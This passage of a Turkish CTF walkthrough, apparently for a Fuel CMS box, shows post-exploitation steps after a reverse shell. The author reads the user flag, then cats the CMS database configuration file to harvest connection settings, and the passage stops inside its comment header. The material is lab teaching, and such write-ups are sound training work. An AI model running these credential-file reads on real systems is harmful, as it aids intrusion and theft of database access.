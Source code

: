 Reverse shell bağlantısı sağlandıktan sonra, hedef sistemde kullanıcı ana dizini olan home dizinine geçiyoruz.
Burada bulunan ilk bayrak dosyasını (flag) bulup okuyarak CTF'nin ilk amacını tamamlıyoruz.

```bash
$ cd /home
$ ls
www-data
$ cd www-data
$ ls
flag.txt
$ cat flag.txt
6470xxxxxxxxxxxxxxx ==> :)
$ 
```

İlk bayrağı aldıktan sonra, önceden not ettiğimiz veritabanı dosyasının bulunduğu yol üzerinde inceleme yapmaya karar verdik.
Bu dosyayı okuyarak, veritabanı hakkında daha fazla bilgi edinmeyi ve sistemdeki diğer potansiyel zafiyetleri araştırmayı hedefledik.

```bash
$ cat fuel/application/config/database.php
```

```bash
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|       ['dsn']      The full DSN string describe a connection to the database.
|       ['hostname'] The hostname of your database server.
|       ['username'] The username used to connect to the database
|       ['password'] The password used to connect to the database
|       ['database'] The name of the database you want to connect to
|       ['dbdriver'] The database driver. e.g.: mysqli.
|                       Currently supported:
|                                cubrid, ibase, mssql, mysql, mysqli, oci8,
|                                odbc, pdo, postgre, sqlite, sqlite3, sqlsrv
|       ['dbprefix'] You can add an optional prefix, which will be added
|                                to the table name when using the  Query Builder class
|       ['pconnect'] TRUE/FALSE - Whether to use a persistent connection
|       ['db_debug'] TRUE/FALSE - Whether database errors should be displayed.
|       ['cache_on'] TRUE/FALSE - Enables/disables query caching
|       ['cachedir'] The path to the folder where cache files should be stored
|       ['char_set'] The character set used in communicating with the database
|       ['dbcollat'] The character collation used in communicating with the database
|                                NOTE: For MySQL and MySQLi databases, this setting is only used
|                                as a backup if your server is running PHP < 5.2.3 or MySQL < 5.0.7
|                                (and in table creation queries made with DB Forge).
|                                There is an incompatibility in PHP with mysql_real_escape_string() which
|                                can make your site vulnerable to SQL injection if you are using a
```
